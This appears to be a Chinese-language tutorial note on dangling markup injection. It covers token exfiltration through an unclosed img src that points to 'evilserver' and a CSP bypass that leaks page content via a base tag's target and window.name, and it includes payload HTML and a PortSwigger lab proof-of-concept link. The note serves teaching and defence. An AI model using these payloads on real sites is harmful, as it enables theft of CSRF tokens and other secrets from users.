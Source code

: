 ```html
<img src="https://evilserver/?
```


Injection point 和下個雙引號之間的 code 將被發送到遠程 server 上
- 這可能包括敏感東西，如 CSRF token

```html
<img src="https://evilserver/?<b>test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```


Bypass 帶有基礎目標的限制性 CSP
- CSP 阻止外部資源的讀取，以防止攻擊的發生
- 然而，一種技術，即使在真正的限制性 CSP 下也能發揮作用

例如：
```
default-src 'none'; base-uri 'none';
```



上述 CSP 將阻止帶有 open src 屬性的 image vector
- 因為策略不會載入任何 image 或其他子資源
- 然而，可以使用一個 base tag 來繞過這個限制
- 使用 base tag 上的 [target](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base#attr-target) 屬性
  - 可以改變頁面上每個連結的 [window name](https://developer.mozilla.org/en-US/docs/Web/API/Window/name)
- 通過 inject 不完整的 `target`，`window name` 將與 inject 後的所有標記一起被設置，直到頁面上每個連結的相應引號
- 因此允許我們偷 injection point 和下一個引號之間的 token 或任何東西



為了讓攻擊者獲取資料
- 受害者只需要點擊連結，由於 `window.name` 是 exposed cross-domain 的
- 攻擊者只需要讀取 window.name 屬性

Injection 看起來像這樣
```html
<a href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html><font size=100 color=red>You must click me</font></a><base target="blah
```


上面 `target` attribute 仍是 open 的
- 然後頁面的 markup 被用作剩餘的 name
- 攻擊者需要做的就是讀 `window name`

在這，攻擊者控制不同 domain 上的頁面，而受害者則瀏覽到了這個頁面：
```html
<script>alert("The extracted content is:" + name);</script>
```

PoC: 可以在這測試
- [Proof of concept](http://portswigger-labs.net/dangling_markup/?x=%3Ca%20href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html%3E%3Cfont%20size=100%20color=red%3EYou%20must%20click%20me%3C/font%3E%3C/a%3E%3Cbase%20target=%22blah)
